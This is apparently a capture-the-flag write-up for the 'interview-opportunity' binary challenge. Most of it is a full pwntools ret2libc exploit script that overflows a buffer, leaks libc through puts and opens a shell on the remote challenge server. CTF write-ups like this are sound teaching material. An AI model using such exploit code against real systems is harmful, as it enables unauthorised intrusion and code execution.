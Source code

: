 # interview-opportunity

---

We are provided with two files.

```
interview-opportunity
libc.so.6
```

---

First we need to check the protections of the binary in order to determine which
vulnerabilities the binary has.

```fish
$ checksec --file=interview-opportunity

RELRO           STACK CANARY      NX            PIE   
Partial RELRO   No canary found   NX enabled    No PIE
```
The binary doesn't has stack canary, so it can be vulnerable to buffer overflow.
Since we are provided with a libc file, it is probable that the vulnerability is
a ret2libc exploit.

---

```py
from pwn import *

e = ELF('./interview-opportunity')
libc = ELF('./libc.so.6')

context.binary = e
context.arch = 'amd64'
context.terminal = 'kitty'

# p = process('./interview-opportunity', env={'LD_PRELOAD':'libc.s0.6'})

# p = gdb.debug("./interview-opportunity", env={'LD_PRELOAD':'libc.so.6'}, gdbscript='''
#         b *main
#         continue
# ''')

p = remote('mc.ax', 31081)

gadget = 0x401313
main = e.symbols['main']
puts = e.symbols['puts']
puts_got = e.got['puts']
puts_off = libc.symbols['puts']
binsh_off = next(libc.search(b'/bin/sh'))

log.info('Puts got adr: ' + hex(puts_got))
log.info('Puts libc off: ' + hex(puts_off))
log.info('Binsh libc off: ' + hex(binsh_off))

payload = b"a" * 34
payload += p64(main)

p.sendlineafter("So tell us. Why should you join DiceGang?", payload)

payload = b"a" * 34
payload += p64(gadget)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

p.sendlineafter("So tell us. Why should you join DiceGang?", payload)

p.recvline()
p.recvline()
p.recvline()

libc_off = u64(p.recvline(keepends = False).ljust(8, b'\x00')) - puts_off

log.info('Libc base adr: ' + hex(libc_off))
log.info('System adr: ' + hex(libc_off + libc.symbols["system"]))
log.info('Binsh adr: ' + hex(libc_off + binsh_off))

payload = b"a" * 34
payload += p64(gadget)
payload += p64(libc_off + binsh_off)
payload += p64(libc_off + libc.symbols["system"])

p.sendlineafter("So tell us. Why should you join DiceGang?", payload)

p.interactive()
```
